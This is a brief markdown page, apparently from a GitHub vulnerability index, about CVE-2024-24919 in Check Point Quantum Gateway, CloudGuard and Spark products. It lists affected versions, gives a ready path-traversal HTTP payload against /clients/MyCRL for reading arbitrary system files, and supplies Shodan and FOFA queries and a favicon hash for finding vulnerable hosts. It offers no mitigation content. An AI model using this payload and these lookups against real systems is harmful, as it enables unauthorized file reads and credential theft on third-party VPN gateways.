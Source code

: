 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
<link rel="stylesheet" type="text/css" href="css/styles.css">
---
```


Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

# Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

# Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
